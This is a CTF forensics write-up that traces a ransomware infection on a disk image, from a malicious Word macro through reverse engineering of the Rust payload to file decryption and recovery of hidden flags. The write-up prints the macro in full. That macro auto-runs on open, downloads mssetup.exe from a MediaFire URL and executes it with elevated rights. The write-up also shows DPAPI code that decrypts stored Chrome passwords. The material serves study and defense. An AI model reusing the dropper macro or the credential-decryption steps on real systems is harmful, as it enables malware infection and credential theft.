

... visits
Challenge Points: 1000
No. of solves: 1
Challenge Author: Azr43lKn1ght
Azrael the Archangel of Vengeance has joined the batfamily after destroying the machine of St Dumas defeating face to face against his most startling foe, the undying heirophant, the first son of St Dumas. The Dumas is not completely destroyed and the heirarchy out somewhere out, Jean Paul, our Azrael has a shared workspace with Duke Thomas, The signal. St Dumas got them now by sending the weapon of azrael but we got the attack process captured by signal as he was the one who let it in unknowingly. Azrael and Signal are trying to fix things to get back whatever is lost as well not get in the clutches of the order. They should now have to safegaurd batman’s files as well as their own important ones. if they get it back before Dumas knowing they are getting close to finding them to stop the order as well the birth and training of new Azraels when they are waiting for negotiation or some plan to take our protagonists with hold of the recovery shard. Can you help them to recover from the loses and find the weapon of Azrael ,so they can take down the order of the St Dumas?
File Password : E6qK~$9pUIk0kT'3&N/Okt
Challenge Files:
Flag format: bi0sctf{...}
We will first add the ad1 file as an evidence into ftk imager.
Q1) What is the PC name and timezone? Format: PC-name_Time-Zone-info
we can find it from registry hives in windows/system32/config/
we can find both the answers from SYSTEM/ROOT/ControlSet001/control/
DESKTOP-37SCR9U_GMT-Standard-time
Q2) What is the name and hash of the initial infection file that drops the main malware? Format: Name_md5(file)
so now we have to hunt for threats.
looking into the timeline with logs, pf and other artefacts, we can see word was run.
there was nothing in Users/DukeThomas/AppData/Roaming/Microsoft/Word/STARTUP
but we can find .lnk in Users/DukeThomas/AppData/Roaming/Microsoft/Office/Recent which leads us to the recently opened files.
And out of which Eula.docm seems suspicious.
and the lnk file gives us the location of the file : \Users\DukeThomas\Eula.docm
let’s export it for analysis
Flags Filename
----------- -----------------------------------------------------------------
OpX:MASI---- Eula.docm
===============================================================================
FILE: Eula.docm
Type: OpenXML
-------------------------------------------------------------------------------
VBA MACRO ThisDocument.cls
in file: word/vbaProject.bin - OLE stream: u'VBA/ThisDocument'
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
(empty macro)
-------------------------------------------------------------------------------
VBA MACRO NewMacros.bas
in file: word/vbaProject.bin - OLE stream: u'VBA/NewMacros'
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
Sub AutoOpen()
DownloadAndOpenFile
End Sub
Sub Document_Open()
DownloadAndOpenFile
End Sub
Sub DownloadAndOpenFile()
Dim url As String
Dim destinationPath As String
Dim shell As Object
url = "https://download1076.mediafire.com/mjjs57bws5ngcVJRcUga28j9RuYxynGaiwQx3DQ0VgqblEMeVMkJeKDo7G77jmDb8YLLy_wlj8HLgv-1Nm-_dk3U4O7RSXM3DFqag4BwiI0COh6Usq5Xu8j9ImDYmDf6YnaEUPRfB5SwvO213LGTYKgRRMiZwyu2P1EA3kh6iRe4UdA/31a2ax8mintcrkp/mssetup.exe"
destinationPath = Environ("TEMP") & "\mssetup.exe"
' Download the file
With CreateObject("MSXML2.ServerXMLHTTP")
.Open "GET", url, False
.send
If .Status = 200 Then
With CreateObject("ADODB.Stream")
.Open
.Type = 1 ' Binary
.SaveToFile destinationPath, 2 ' Overwrite
.Close
End With
' Open the downloaded file using Shell.Application
Set shell = CreateObject("Shell.Application")
shell.ShellExecute destinationPath, "", "", "runas", 1
End If
End With
End Sub
+------------+----------------------+-----------------------------------------+
| Type | Keyword | Description |
+------------+----------------------+-----------------------------------------+
| AutoExec | AutoOpen | Runs when the Word document is opened |
| AutoExec | Document_Open | Runs when the Word or Publisher |
| | | document is opened |
| Suspicious | Open | May open a file |
| Suspicious | shell | May run an executable file or a system |
| | | command |
| Suspicious | ShellExecute | May run an executable file or a system |
| | | command |
| Suspicious | Shell.Application | May run an application (if combined |
| | | with CreateObject) |
| Suspicious | Binary | May read or write a binary file (if |
| | | combined with Open) |
| Suspicious | CreateObject | May create an OLE object |
| Suspicious | ADODB.Stream | May create a text file |
| Suspicious | SaveToFile | May create a text file |
| Suspicious | Environ | May read system environment variables |
| Suspicious | MSXML2.ServerXMLHTTP | May download files from the Internet |
| IOC | https://download1076 | URL |
| | .mediafire.com/mjjs5 | |
| | 7bws5ngcVJRcUga28j9R | |
| | uYxynGaiwQx3DQ0Vgqbl | |
| | EMeVMkJeKDo7G77jmDb8 | |
| | YLLy_wlj8HLgv-1Nm-_d | |
| | k3U4O7RSXM3DFqag4Bwi | |
| | I0COh6Usq5Xu8j9ImDYm | |
| | Df6YnaEUPRfB5SwvO213 | |
| | LGTYKgRRMiZwyu2P1EA3 | |
| | kh6iRe4UdA/31a2ax8mi | |
| | ntcrkp/mssetup.exe | |
| IOC | mssetup.exe | Executable file name |
+------------+----------------------+-----------------------------------------+
we can see it is actually suspicious and it is downloading a file from mediafire and running it.
let’s first answer the question.
Eula.docm_c814d5d719bea855b4da9db1e1a67f0e
Q3) What is the name and hash of the main infection file? Format: Name_md5(file)
now, from the analysis of the macro , we know that it runs a file after downloading it in temp folder, let’s have a look at the temp folder.
we can indeed see the file mssetup.exe as well its execution in the timeline.
mssetup.exe_35133696c5d4aca60d65f59138810e4d
Q4) When did the main infection file run? Format: DD-MM-YYYY-HH-MM
as we see from the timeline or getting from logs, prefetch or other artefacts, we can see the execution time.
21-02-2024-16-33
Q5) What is the ip and port the malware is sending the decryption essential to? Format: ip:port
so first let’s start analysing the mssetup.exe file.
using detect it easy we can see that it is packed with upx, let’s unpack it
now let’s check again
now it is pretty normal with sections and imports being normal, so we can start static analysis.
we will start by looking into its strings
we can note things like
we also see strings pertaining to chacha20, giving us a small idea on what this ransomware might entail
Now we can load the binary into IDA
In a rust binary unlike the C/C++ binaries, the main is not actually a main, rather it passes the function pointer of main to another function called lang_start
Now heading into the actual main we see, An IsDebuggerPresent call
to patch, we can easily either NOP out these bytes or convert the jnz to jz as such
Now this would help us during our debugging session, if we need to step through this function
Next we have this block of code between lines 123 - 130
looking into struct LASTINPUTINFO
As it says, we get a structure filled with the last input info
This function fills the dwTime field of the structure with the milliseconds (tick count) of the last input info. The milliseconds here are from the start of system_time
Analysing the next block of code
We see GetTickCount() being called
As mentioned, it returns the number of milliseconds since the system was started, And that is being subtracted from the time the last input was taken and compared against 59999, and is evaluated true if greater. Ie it would be false if it is under 60000ms, 60000ms is 60s i.e 1 min. The malware checks if the computer was idle for the last minute, if it was idle, then it exits . This is one of the anti-sandboxing techniques.
For the next block of code above, in the if condition we see it takes and fills a structure plii with the current cursor position and and then sleeps for 5 seconds, then measures the next cursor position and we can see a ‘mm_cmepeq_epi132’ , indicating a compare, thus these two measured cursor positions are compared and if it is the same then it is marked as True, at which point the malware exits and stops running as well.
Once the if condition is cleared,
in the block of code below
We see the use of a function “GetAsyncKeyState”
We can look up the MSDN webpage associated to GetAsyncKeyState
As it mentions, it determines which key was pressed during the latest IO operation
And we have GetAsyncKeyState(1) and GetAsyncKeyState(2)
Where args 1 and 2 correspond to :
Under the virtual key_code .
We also see,
Based on this we can see it keeps track of how many times left click was registered and how many times right click was registered in the variables v1 and v2 respectively.
Now we understand that the malware won’t run or proceed further until and unless a particular amount of left and right clicks have been registered which in our case in 6 and 5 respectively.
This clears out the doubt on why the malware wouldn’t run under normal circumstances making it difficult for sandboxing and dynamic analysis, as it requires a specific set of actions to be done in a certain number for it to proceed executing the main malicious code.
After that we notice some basic initialization type code until line 179 (below)
And tracking that particular offset 140002CFF0 leads us to functions which looks like a heapfree and memory allocation, all of this sounds like basic initialization. So not much use for us to actually reverse this part of the code
has been rechanged to
going into the function it seems too much to reverse statically, so we will come back to this later and look at it dynamically
Next interesting function is
This function seems to take an arguemnt as “USERNAME " and a hObject to output the value
Going inside the function we see it does make use of the USERNAME argument in calling the windows API
So we got the understanding that the hObject that goes out of this is the ENV VARIABLE
this block of code seems like it is reading an existing string(unk_14002D040)
at particular offsets and it is appending whatever is read from env_struct to parts of this string
A hunch we can easily form out of this entire code block is that it is using our system USERNAME to get the correct full path of these directories
sub_140011F80 mentioned here seems to be taking these
Going inside it, we see it basically has a memcpy inside it
so we aptly can rename sub_140011F80 ->concat
Also, we see the output in one is being used in the other after being put through another function sub 140018D50, which just returns the string as is, this can be hunched of as unrwap() in rust
sub_140005700 just calls a freeheap within itself, so we can rename that as freeheap as well
so now the cleaned up statically analysed block of code looks like
And going by the order of the string, I would assume that it is being put to use in the same order that it is stored in
So we can rename the above image to kind of fit our mental image of what is happening
As we can see, first 17 bytes of this offset is read in
when went into the highlighted function, we see calls such as
which leads us to understand that this now creates a file under the name
Azr43l_README.txt.
And we see this being used to the very last concatenated file_path, which under our assumption is Desktop.
In the above image we see sub_140004550, we see calls to NtWriteFile
and this function by itself takes arguments to the ransom_note
hence it is safe to assume that it does write the ransom_note onto the newly created Azr43l_README.txt
Then after this block of code it’s mostly a bunch of heap_free calls until line 252
let’s check this in our chall file
as well we can find a fake flag in flag.txt
bi0sctf{obviously_the_realest_flag_of_2024}
this is not a fake flag, if it is , you can spam the report on the chall author
thank you
happy investigating :)
but thank you all for not reporting me :P
We see the same routine yet again and some file_path\Azr43l_README.txt being passed as an arg to the above mentioned func. We don’t understand much from looking into this, this is yet another function to be looked at dynamically.
Starting from line 275 we see a similar routine again of it again wrting the same content to this new file, it’s just that it is in a different location (which can be found out dynamically).
Now we get to what seems to be the crux of the ransomware. We see a new function which we have named unkn_func_2 take in the earlier unkn_func_1’s output and it also takes the user_download_folder path, going into the function, it only confuses us even more, so for now we stick to just renaming it like so
As I continued to scroll down more, I saw a similar routine of unwrapping a string and unkn_func_3 being called on them at which point I thought, static analysis is gonna get us only so far, and that we can start looking at the file dynamically.
Before we start with the dynamic analysis of the ransomware, it would be helpful to debug and get to code faster if we patch out these three key areas
I decided to run this binary now, in a controlled environment ofcourse to see what this does, and as expected so far, we see a ransom note in Desktop and we also see certain files getting encrypted and being renamed as .azr43l files
for example
NOTE:
All the debugging that is being shown in this writeup has been purely done inside and isolted VM. And under no condition, should you try to replicate it on the HOST.
Now we can start with the dynamic analysis of the ransomware
Becuase we patched out the above mentioned areas of jnb to respect jb and jz to jnz, debugging is a smooth sail
we get to the first function we wanted to look at dynamically
Initially we just kept track of the output value of this function and func_1_output seems to be generated on runtime
and when tried to run multiple times, we see different values being generated
<1> 
<2>
<3>
Looking at this we see, it generates
so we can go ahead and change the name of the func to
Can confirm that it does take the given struct adn does return the %USER% value in the struct
we can confirm those particular file_paths now and we do see the actual path and we can name the variables accordingly
<1>
<2>
<3>
The ransom note path can also be found as shown below
C:\Users\Ryuzaki\Desktop\Azr43l_README.txt
Now we come to unkn_func_2
We see the first arg being some structure, and the second one being the desktop_ransom_note file path
We see plii return 1 at the cb.size so it doesn’t even enter the block of code under the if condition below
Now we come to this part of the code
as we can see, from renaming the above variables in the “setting filepath” we get an idea as to what all args are being passed into this function namely
Statically looking at unkn_func_3 we see a lot of operations pertaining to an encryption of sorts and we see some variables named randombuffer , we see this string
98238588864125956469313398338937 being xorred with something
and we also see the use of the string .azr43l, as seen above in the second behavioural analysis attempt
So going based off of these hunches, now I name the current function that we are in right now, unkn_func_3 as encrypt()
Going into encrypt, we come across the first function which takes the file_path and the file_length as arguments, v53 being the output
Currently in our case, the file_path is the download folder and the file_length is accordingly set.
Going inside the above mentioned function, we see
I have renamed some variables as differently variants of "file_path" accordingly again and again ,because the pointers were being copied and switched around
As we keep scrolling down, most of it seem pretty basic and normal assigning operations with nothing much being operated upon. Until this part,
path file before that particular function call was just our downloadpath file C:\Users%USER%\Downloads\
But after that call,
it is appended with a * like so
And in windows * is reserved and is not allowed to be used as an actual file name.
It is mostly used to search under a particular directory, a regex the means anything matching that particular pattern of string. So rn it seems as if that function was supposed to append a * depending on whether or not the pathfile ended in a "” character.
so we rename that function sub_7FF792300B20 like so
and continue ahead.
takes our file_path as arg
and once it exits, we see this
when we track our filepath variable
hence it has been aptly named
it takes lpfilename and our file_path as argument, and output’s the fullpath name under lpfilename
When we look inside the function we see
and stepping over this function while debugging also confirms the same. In our case it returns the same C:\Users\Ryuzaki\Downloads*
Now coming to next block of code
it returns a handle to the file and an output value under the second arguemnt containing information about the file under the structure of FIND_DATAW
typedef struct _WIN32_FIND_DATAA {
DWORD dwFileAttributes;
FILETIME ftCreationTime;
FILETIME ftLastAccessTime;
FILETIME ftLastWriteTime;
DWORD nFileSizeHigh;
DWORD nFileSizeLow;
DWORD dwReserved0;
DWORD dwReserved1;
CHAR cFileName[MAX_PATH];
CHAR cAlternateFileName[14];
DWORD dwFileType; // Obsolete. Do not use.
DWORD dwCreatorType; // Obsolete. Do not use
WORD wFinderFlags; // Obsolete. Do not use
} WIN32_FIND_DATAA, *PWIN32_FIND_DATAA, *LPWIN32_FIND_DATAA;
The key point to note is this structure contains the filename of the file that it has an info on, so our program is trying to leverage this method of finding every filename inside a given directory
So now we can rename the args to more understandable names
Next as we keep executing,
we see our file_info being copied into the a1 ie our arg1 which we initially thought wld be the output of this particular function as well
And then it returns
so to summarize,
basically this function takes a particular argument, checks if it is a directory, if it is , it would add the " * " operator at the end of the directory and calls FindFirstFileW and gets the file info based on that particular file and returns that in a struct
So we name it as as get_file_data
Just looking at the assembly side by side
we see a bunch of bytes getting copied over into xmm6 and xmm7 , we just keep that in mind and go ahead
Not used.
While debugging we see the memcpy 2’s first argument is populated with the filename from get_file_data pointer
Now in my case it turned out to be another directory that is stored first
continuing,
we see now the if condition fails at sub_7FF792302070
and goes onto the else condition only to call encrypt function again recrusively
Now are are recrusively inside the encrypt function with the argument as
C:\Users\Ryuzaki\Downloads\DebugView
we go through the same steps of finding the first file handle and it’s details and names
For the purpose of creating this writeup I had made a dummy file under downloads directory and filled it with loerm ipsum content, and now that this file is taken in it passes throuhgh the above function wih no issues, I can form the hunch that the above function
sub_7FF792302070 is to check if a particular path is a directory or not
we’ll go ahead with that.
passing through this function and looking at the value inside RandomBuffer, show’s us
txt - meaning the function serves it’s purpose to find the extension of the loaded file.
then this extension is compared against azr43l
if the extension is already azr43l then it enters the else condition and looks for more files in the same directory
and if the extension is not the same then it enters into the if condition
This throws more light on the ransomware, that once it encrypts it’s files it would extend it with azr43l
In the next check it makes sure it doesn’t encrypt the ransom_note.txt
if it turns out to be the ransom note then it exits ,looking for the next file in the directory
next we see inside this unkn_func_0
we spot it’s a CreateFile API
hence we name this function as create_file
then as we go down, we debug more to spot a particular function
sub_7FF792301E20
That seems to return the filename alone from the huge file path, for example in our case it is - just_a_test_doc
Then from further debugging we see function calls such as
which I have renamed it, because it returns the technical last byte being “\0”
Then it takes the file_name and appends to it the .azr43l extention through these two memcpy
Next during further debuggin we notice and rename a particular function call that just returns the current directory path that the file is in
and that it is getting copied to Random buffer
Next in the subsequent lines of code
we see random buffer being appended to file_directory there_by creating this
basically it appends .azr43l to the path of the old filename and it creates a new file_path
Now we notice it creates a new handle and opens it to the new encrypted file under the new name of
C:\Users\Ryuzaki\Downloads\DebugView\just_a_test_doc.txt.azr43l
Then it’s just doing a few copies of file pointers which is not really necessary for us at the moment
it provies a malloc space for file_contents then we finally come to reading the file
Opening the open_file function we see
hence we name it to be open_file
now we can see the file contents as well
we come across another function which only seems to take two args
opening it we see,
So now we have renamed it as
we can see the RandomBuffer is now stored on the stack
The actual encryption
We see two function calls here
Coming to the first one
sub_7FF7922F8600(&RandomBuffer, &random_buffer, 32LL, random_24_bytes_val, 12LL)
The arguments it takes are :
Arg 1 and 2 RandomBuffer that we just generated right now
Arg 3 : 32
Arg4: previously generated 24 bytes random value
Arg 5 :12
A major point to note is that this doesn’t involve our file_contents at all
Entering inside this function, this is what it looks like
we see strings like chacha20 which certainly do pique an interest here.
We see another function being called internally
sub_7FF7922F86C0()
which returns the value in v10
and now v10 contains
expand 32-byte k
curious on this we google and a small googling let’s us know that this is the initial state of the chacha20 encryption alrogithm
Therefore now we can rename this funtion as init_chacha20
And googling more about chacha20 in rust gives us this page
in this we can clearly see that chacha makes use of a 32 byte key(which in our case is random_buffer) and a 12 byte nonce(which in our case is the 24 byte random_val)
we keep that in mind that it takes only the top 12 bytes of this 24 byte random_val
Coming to the second function, we now see
Arg1 : expand 32-byte k followed by the random_buffer in memory followed by the first 12 bytes of the 24_byte_val
Arg2 : file_contents
Arg3 : A number(assuming it’s the size of the file)
Arg4 : unsure
Arg 5: unsure
Arg 1:
followed by the 32 byte random value
this followed by the 12 byte nonce
all of this is on the stack and now this aligns with what we saw in the rust documentation and hence, now we are able to get a clear picture on how and what it is encrypting
we basically have the random_val and the nonce that is needed to encrypt and decrypt in chacha20
After encryption the location where the 12 byte nonce was stored is where the encrypted data is stored as well, the pointer is being overwritten
This is pertaining to the earlier suspicious group of bytes that we saw getting pushed into xmm words
rn the very same byts that are storred in xmm8 and xmm7 are getting xorred with the 32 byte random value that we just generated
This xorred value is now being appended to the very end of the file_data that we just encrypted.
This helps us recover the randomvalues that were generated for each file
Meaning, to decrypt now we have got the random_32_byte key we would only require a 12 byte nonce that needs to be used in decrypting
And right now finally as everything goes, we take the encrytped bytes and write it into the new file that we just generated with the .azr43l extension
Once the new file has been written now, there is no need to keep the original old file around which is now getting deleted from the system
And the rest of this function is just clearing memory spaces and freeing the heap
And thus that brings us to the end of the encrypt function
After getting out of the encrypt function we continue down into the code
we see it assigning new path now, but because it follows the same routine I don’t want to bloat the writeup with redundant info
This block of code encrypts the desktop content
Then it goes onto encrypt data at
C:\Users\Ryuzaki\AppData\Roaming\Notepad++
Now we get to the intersting part again, different from the few previous code blocks
We see here what looks like an IP addr
192.168.1.33
and right below we seem to have been given the port
Now hObject seems to be initialized with ip and port binding them into a single struct for sockets
as we track hObject we see it is being passed onto
which takes the IP , Port and the random_24_byte_val, which we now know to be the nonce
it sends the nonce to IP 192.168.1.33:6969
And last but not least we come to the final function which is yet to be analysed
Going into the function we see it has all these strings,
and we see a bunch of function calls of the same function(sub_1400172B0) but with different strings as different args
Going into the function we see a lot of calls
We could look into the paths
And after analysis, it’s easy to understand and to formulate a hunch that this particular funtion was meant to remove all the files inside these directories of valuable DFIR artefacts as well for anti-forensic purposes.
now as the anlysis is over , we will go ahead and answer the questions
192.168.1.33:6969
Q6) What is the nonce required to decrypt all the files affected by the ransomware? Format: md5(nonce)
we know that the nonce is the 12 byte random value that was generated, and we can see processdumps/minidumps in the challenge file in /LogicalFileSet1/chall/Users/DukeThomas/procdumps as well as /LogicalFileSet1/chall/Users/DukeThomas/
so we can make a easy script to do it or we can debug the dumps/dump,
from Crypto.Cipher import ChaCha20
from collections import Counter
import re
def find_nonce(data):
input_string = ""
for i in data:
input_string += chr(i)
nonce_pattern = re.compile(r"([0-9a-zA-Z]{12})")
nonces = re.findall(nonce_pattern, input_string)
nonces = nonces
repeating = [k for k, v in Counter(nonces).items() if v > 1]
return sorted(repeating)
def decrypt_chacha20(key, nonce, ciphertext):
cipher = ChaCha20.new(key=key, nonce=nonce)
plaintext = cipher.decrypt(ciphertext)
return plaintext
def main(filename, nonce):
with open(filename, "rb") as file:
ct = file.read()
encKey = [i for i in ct[len(ct) - 32 : len(ct)]]
xorkey = [ord(i) for i in "98238588864125956469313398338937"]
key = []
for i in range(32):
key.append((encKey[i] ^ xorkey[i]))
key = bytes(key)
nonce = bytes(nonce, "utf-8")
decrypted_data = decrypt_chacha20(key, nonce, ct)
if b"\x89PNG\r\n\x1a\n" == decrypted_data[:8]:
with open(filename.rstrip(".azr43l"), "wb") as file:
file.write(decrypted_data)
print("Nonce: ", nonce)
print("Key: ", key)
return True
dumpPath = "mssetup.exe.dmp"
encImagePath = "15.png.azr43l"
with open(dumpPath, "rb") as file:
data = file.read()
potential_nonce = find_nonce(data)
if potential_nonce:
print("Potential nonces found...")
else:
print("No potential nonces found...")
found = False
for nonce in potential_nonce:
if main(encImagePath, nonce):
found = True
if not found:
print("Cannot find the correct nonce...")
as we have encrypted png , I just made a easy script to find the nonce and decrypt any file.
or we can debug and find it just like we did it on Batman Investigation 1
F2E44EB1F60F
cec72ce0ac9b9e20288bb66bf5f1c95a
Q7) What is the password noted down of the site he tried to access and what is stored in the site? Format: md5(password)_md5(data-in-the-site)
as we have notepad++ and it encrypts that too, we will have a look into it.
but before that we will make a easy script to decrypt the file as we already know the nonce
from Crypto.Cipher import ChaCha20
def decrypt_chacha20(key, nonce, ciphertext):
cipher = ChaCha20.new(key=key, nonce=nonce)
plaintext = cipher.decrypt(ciphertext)
return plaintext
def main(filename, nonce):
with open(filename,'rb') as file:
ct = file.read()
encKey = [i for i in ct[len(ct)-32:len(ct)]]
xorkey = [ord(i) for i in "98238588864125956469313398338937"]
key = []
for i in range(32):
key.append((encKey[i] ^ xorkey[i]))
key = bytes(key)
nonce = bytes(nonce,'utf-8')
print("Nonce: ",nonce)
print("Key: ",key)
decrypted_data = decrypt_chacha20(key, nonce, ct)
with open(filename.rstrip(".azr43l"),'wb') as file:
file.write(decrypted_data)
main('15.png.azr43l',"F2E44EB1F60F")
let’s get the backup changelog and decrypt it
pastebin - PFA6}>C"lbqUUX1M5i;J
browser Secret key: b'Y\x17\x08JS\xe5\xdd\ny\xa9 \x00T\x91\xcd\x8b\x86\xaf\xcc\x1dDzi\xbf7\xb49\x81\xdd\x9f\x19\x9a'
now we can see something like a password and a browser secret key is stored. let’s get to his browser history which is chrome.
Users/DukeThomas/AppData/Local/Google/Chrome/User Data/Default/History file will help us with finding the user history of chrome history
now let’s go to the pastebin and unlcok it with the password in notepad++ backup PFA6}>C"lbqUUX1M5i;J
wO0`7A7L9Wp|?Y<^G
1af43ebd3fe46a870f2bca51c525af76_b8df2e33554bbbf7e58c793ed2e401a1
Q8) What is the email and password for his traboda login? Format: email_password
now we can decrypt the chrome passwords with editing this tool
we can also get the dpapi from %APPDATA%\Microsoft\Protect{SID}
and we can use the custom unprotectdata to get the secretkey
#include "pch.h"
#include <iostream>
#include <Windows.h>
#include <dpapi.h>
int main()
{
DATA_BLOB plainBlob = { 0 };
DATA_BLOB encryptedBlob = { 0 };
BYTE dataBytes[] = "spotless";
BYTE inBytes[300] = {0};
BYTE outBytes[300] = {0};
HANDLE outFile = CreateFile(L"c:\\users\\mantvydas\\desktop\\encrypted.bin", GENERIC_ALL, 0, NULL, CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
HANDLE inFile = CreateFile(L"c:\\users\\mantvydas\\desktop\\spotless.bin", GENERIC_READ, 0, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
DWORD fileSize = 0;
//encrypt
plainBlob.pbData = dataBytes;
plainBlob.cbData = sizeof(dataBytes);
CryptProtectData(&plainBlob, NULL, NULL, NULL, NULL, CRYPTPROTECT_LOCAL_MACHINE, &encryptedBlob);
WriteFile(outFile, encryptedBlob.pbData, encryptedBlob.cbData, NULL, NULL);
//decrypt
fileSize = GetFileSize(inFile, NULL);
ReadFile(inFile, encryptedBlob.pbData, fileSize , NULL, NULL);
encryptedBlob.cbData = fileSize;
CryptUnprotectData(&encryptedBlob, NULL, NULL, NULL, NULL, 0, &plainBlob);
return 0;
}
E:\writeup\bat3\User Data\Default\Login Data
Sequence: 1
URL: https://app.traboda.com/academy
User Name: jeanpaulvalley33@gmail.com
Password: 3mZxVDpGUhnm2LL
**************************************************
Sequence: 2
URL: https://ctflearn.com/user/register
User Name: DukeThomas
Password: fakeflaghere:/
**************************************************
jeanpaulvalley33@gmail.com_3mZxVDpGUhnm2LL
Q9) What is the suspicious hidden text in the QR? Format: md5(text)
for this I extarcted all the images that are numbered as my test image which was 15.png.azr43l and was a qr
out of which 15.png looked more suspiicious and as well was more damaged than the rest of the qrs, so we can use any tool to recover it by replacing their positions and adding the squatre and we can contruct it.
after this we get
QR-Code:k4YSM|5^#?34SB$q
73327e080755e5f7e5ae18a1a4338268
Q10) What is the hidden text in the MP4? Format: md5(text)
now we can decrypt the mp4 and we can use any mp4 check or by template, the only problem we will see is that the mp4 size is wrong, so we calculate the size and change it.
we get this around 1:40 and this can be either done manually or with scripted with msec or other parameters.
d774c3a1cbe3d146c20e4142a8361609
Q11) What is the hidden text in the AVI file? Format: md5(text)
On playing the video file, it looks like frames are shuffled.
The compression may be H.264 or MPEG-4. So, there might be I-frames & P-frames.
So, we can extract the I-frame from every one second (that contains 30 frames).
But how to find I-frames. Usually, I-frames are larger in size. So, we can parse the video file and locate the bigger chunk and extract it.
There is some text at 2:33.
Way to get the content
reduce the playback speed and you can see the frame.
Extract all I-frames video and craft a new video file.
import struct
FRAME_SIZE = 6362
FRMAE_RATE = 30
def save_it(buff):
open("redued.avi", 'wb').write(buff )
def shuffle_frame(buff, buffer):
i=0
try:
while (i < FRAME_SIZE ):
TEMP_BUFF = []
SIZE = []
entire_buff = ''
for _ in range(FRMAE_RATE):
ref = buff.read(0x04)
if ref == b'\x30\x30\x64\x63':
atsize = struct.unpack("<I", buff.read(0x04))[0]
low_bytes = atsize.to_bytes(4, 'little')
SIZE.append(low_bytes)
if atsize % 2 != 0:
atsize += 1
entire_buff = ref + low_bytes +buff.read(atsize)
TEMP_BUFF.append(entire_buff)
sizes = [len(_) for _ in TEMP_BUFF]
k = max(sizes)
pos = sizes.index(k)
buffer += TEMP_BUFF[pos]
i+=1
except: save_it(buffer)
if __name__ == "__main__":
buffer = bytes()
file = open("chall.avi", "rb")
buffer += file.read(0x162e)
shuffle_frame(file, buffer)
1c7cfa806f06fb78687d26814260b874
bi0sCTF{Th3_St_Dum4s_can't_contr0l_th1s_Arch4ng3l_0f_V3ng3nc3_Anym0r3_Rahhh_b63f816}
Thank you to everyone who tried the challenge and Congratulations Team idek for attaining the only solve on this. We thank you for playing the CTF and would love to hear some feedback about the challenge. Thank you Retr0ds for helping me test the challenge and writing the writeup. If you have any queries regarding the challenge, feel free to hit me up over twitter/discord.